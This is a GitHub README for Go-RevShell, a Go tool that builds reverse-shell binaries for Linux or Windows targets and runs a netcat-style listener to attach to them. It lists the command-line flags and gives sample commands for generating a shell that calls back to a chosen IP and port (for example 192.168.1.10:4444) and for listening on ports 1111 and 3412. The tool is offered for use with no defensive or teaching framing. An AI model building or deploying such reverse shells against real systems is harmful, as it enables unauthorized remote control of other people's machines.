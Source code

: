 ![Go-RevShell-Banner](img/Go-RevShell-Banner.jpeg)

Go-RevShell
=======

Pure standard Golang implementation of a reverse-shell generator and a netcat like tcp listener to attach the shell without any executable.

## Table of content
- [Go-RevShell](#go-revshell)
  - [Table of content](#table-of-content)
  - [Usage](#usage)
    - [Build a reverse shell](#build-a-reverse-shell)
    - [Attach to reverse shell](#attach-to-reverse-shell)
  - [Screenshots](#screenshots)
  - [Todo List](#todo-list)

## Usage
```text
  -i string
        IP of the host which the reverse shell will connect to. (default "localhost")
  -l string
        Port to listen (you can use this argument to bind to your reverse shell). (default "0")
  -p string
        Port of the host which the reverse shell will connect to. (default "1111")
  -s string
        OS of the server which will start the reverse shell (used to build the right binary) available : "windows", "linux". (default "linux")
```

### Build a reverse shell

* Build a shell for linux server : ```go run main.go -s linux```
* Build a shell for windows server : ```go run main.go -s windows```
* Build a shell for windows server to be attached on 192.1.1.10:4444 : ```go run main.go -i 192.168.1.10 -p 4444 -s windows```

### Attach to reverse shell

* Listen on port 1111 ```go run main.go -l 1111```
* Listen on port 3412 ```go run main.go -l 3412```

## Screenshots

![Go-RevShell-Generate](img/Go-RevShell-Generate.png)
![Go-RevShell-Attach](img/Go-RevShell-Attach.png)

## Todo List

* Refresh attach screenshot with a windows host
* Publish package

**[`^        back to top        ^`](#)**

